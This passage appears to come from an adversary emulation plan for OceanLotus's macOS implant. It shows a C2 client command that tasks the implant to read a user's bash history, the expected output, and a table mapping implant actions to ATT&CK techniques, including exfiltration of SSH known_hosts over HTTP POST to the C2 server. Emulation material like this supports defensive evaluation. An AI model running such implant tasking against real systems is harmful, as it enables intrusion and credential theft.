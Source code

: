    ```
4. Use the History file to understand how this host connects to the host listed in the known_hosts file.
   ```zsh
   ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"cat /Users/hpotter/.bash_history"}'
   ```

   Expected output:
   ```
   [SUCCESS] 2023/08/18 18:36:21 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
   ...
   [INFO] 2023/08/18 18:36:28 Received task output for session:  b6dbd70f203515095d0ca8a5ecbb43f7
   [Task] 2023/08/18 18:36:28 which git
   brew install iterm
   sudo chown -R $(whoami) /usr/local/Cellar
   dscl
   ...

   [SUCCESS] 2023/08/24 19:25:30 Successfully set task output.
   ```

   Reviewing the history file, we see the user uses scp commands to a specified IP address.

### 🔮 Reference Code & Reporting

<details>
   <summary>Click to expand table</summary>

   | Red Team Activity                                                                          | Source Code Link                                                                                                                                                                                                   | ATT&CK Technique                                        | Relevant CTI Report                                                                                                                                                                                                                                                                                        |
   | ------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
   | OSX.OceanLotus implant leverages popen to execute shell commands                           | [Execute command instruction `0xAC`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L240-L253)<br><br>[`executeCmd`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L8-L29)                    | T1059.004 Command and Scripting Interpreter: Unix Shell | https://www.trendmicro.com/en_us/research/18/d/new-macos-backdoor-linked-to-oceanlotus-found.html<br><br>https://www.trendmicro.com/en_us/research/20/k/new-macos-backdoor-connected-to-oceanlotus-surfaces.html<br><br>https://unit42.paloaltonetworks.com/unit42-new-improved-macos-backdoor-oceanlotus/ |
   | OSX.OceanLotus implant returns command output via HTTP POST request to the C2 server       | [Send `POST` with command output](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L252)<br><br>[Communication library exported `sendRequest`](../Resources/OSX.OceanLotus/Comms/Comms/Comms.cpp#L89-L174) | T1071.001 Application Layer Protocol: Web Protocols     | https://www.trendmicro.com/en_us/research/18/d/new-macos-backdoor-linked-to-oceanlotus-found.html<br><br>https://www.trendmicro.com/en_us/research/20/k/new-macos-backdoor-connected-to-oceanlotus-surfaces.html                                                                                           |
   | OSX.OceanLotus implant executes `ls -la /Users/hpotter/.ssh/`                              | [Execute command instruction `0xAC`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L240-L253)<br><br>[`executeCmd`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L8-L29)                    | T1083 File and Directory Discovery                      | -                                                                                                                                                                                                                                                                                                          |
   | OSX.OceanLotus implant exfiltrates `/Users/hpotter/.ssh/known_hosts` via HTTP POST request | [Upload instruction `0x72`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L217-L230)<br><br>[`readFile`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L68-L82)                              | T1041 Exfiltration Over C2 Channel                      | -                                                                                                                                                                                                                                                                                                          |
   | OSX.OceanLotus implant executes `cat /Users/hpotter/.bash_history`                         | [Execute command instruction `0xAC`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L240-L253)<br><br>[`executeCmd`](../Resources/OSX.OceanLotus/Implant/Implant/ClientPP.cpp#L8-L29)                    | T1552.003 Unsecured Credentials: Bash History           | -                                                                                                                                                                                                                                                                                                          |

   </summary>
</details>

### 🔬 Blue Team Notes

None

## Step 3 - Lateral Movement

### 📖 Overview

**Step 3** emulates OceanLotus transfering tools into the victim enviornment for
targeted platforms.
